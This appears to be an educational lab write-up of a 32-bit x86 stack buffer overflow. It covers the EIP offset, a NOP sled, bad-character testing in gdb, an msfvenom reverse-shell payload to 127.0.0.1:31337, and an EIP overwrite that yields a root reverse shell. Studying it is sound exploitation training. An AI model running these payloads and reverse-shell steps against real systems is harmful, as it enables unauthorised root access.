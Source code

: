 # Buffer overflow
 
 ## EIP
 
 EIP is an register in a x86 architecture (32bit). It stands for "Extended Instruction Pointer".
 EIP will tell our computer where to go next to execute code, in this exploit we will try to write malicious shellcode to the program and make the EIP point to the malicious shellcode.
 
 ## The exploit
 
 ![](bilder/3.png)
 
 We find the offset to where the EIP address starts. We want to overwrite the address to point to the malicious code.
 Example payload:
 ```$(python -c 'print "\x55" * (2060-100-150) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')```
 ```
   Buffer = "\x55" * (2060 - 100 - 150 - 4)
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
 ```
 What we want to do now is to find out what chars that are bad.
 ```
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
We'll add the CHARS to our payload to see what characters that are bad so we can craft a malicious shellcode.
All these charcters equals to 256 bytes, we need to calculate a new payload.
 ```$(python -c 'print "\x55" * (2060-256) + "<CHARS>" + "\x66" * 4')```
 We can then run ```x/2000xb $esp+500``` in gdb for this output:
 ```
 0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
 ```
 We can see the characters being written in these addresses, and we can see that 0x00, 0x09, 0x0a and 0x20 was disregarded. These are our bad characters, which we will use to craft our shellcode with.
 ```msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode```
 This creates a reverse shell for a local machine, the shellcode is 95 bytes so agian we need to recalculate and change the payload.
 ```
 run $(python -c 'print "\x55" * (2060-100-95)+ "\x90" * 100 + "<SHELLCODE>" + "\x66" * 4')
 ```
 
 ![](bilder/4.PNG)
 
 Our shellcode starts at ```0xffffd68e```, But we want EIP to point to a little behind that agian. So our new payload for overwritting EIP will be
"\x7e\xd6\xff\xff" for ```0xffffxd67e```.

Next we open two terminals.

### Terminal 1
![](bilder/1.PNG)

We listen for a connection from root.

### Terminal 2
![](bilder/code.PNG)

We send the payload which starts the reverse shell.

### Terminal 1
![](bilder/2.PNG)
